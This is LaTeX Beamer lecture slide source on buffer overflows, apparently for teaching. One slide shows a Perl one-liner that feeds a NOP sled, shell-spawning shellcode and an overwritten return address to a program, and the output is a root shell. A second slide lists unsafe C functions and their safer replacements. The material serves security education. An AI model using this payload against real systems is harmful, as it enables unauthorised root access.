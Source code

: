 \begin{frame}{How to use BOF?}
	\begin{figure}
		\centering
		\includegraphics[height=.7\textheight]{imgs/whoami.png}
		\caption{BOF whoami: root}
		\label{fig:whoami}
	\end{figure}
	\begin{block}{Also known as}
		\begin{verbatim}
			user$ ./note `perl -e 'printf("\x90" x 153 .
    "\x31\xdb\x31\xc9\x31\xc0\xb0\xcb\xcd\x80\x31\xc0\x50
     \x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50
     \x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\x31\xdb\xb0\x01
     \xcd\x80" . "\x90" x 22 . "\xef\xbe\xad\xde")'`
			sh-3.1# whoami
			root
		\end{verbatim}
	\end{block}
\end{frame}

\subsection{Unsafe functions}
\begin{frame}{Unsafe functions}
\begin{block}{Unsafe C functions}
	\begin{itemize}
		\item \emph{gets()}: replace it with \emph{fgets()} or \emph{gets\_s()}
		\item \emph{strcpy()}: replace it with \emph{strncpy()} or \emph{strlcpy()}
		\item \emph{strcat()}: replace it with \emph{strncat()} or \emph{strlcat()}
		\item \emph{sprintf()}: replace it with \emph{snprintf()}
		\item \emph{printf()}: improper use of it can lead to exploitation, never call it with variable char* instead of constant char*.
	\end{itemize}
	Essentially, every C functions that don't check the size of the destination buffers
\end{block}
\end{frame}

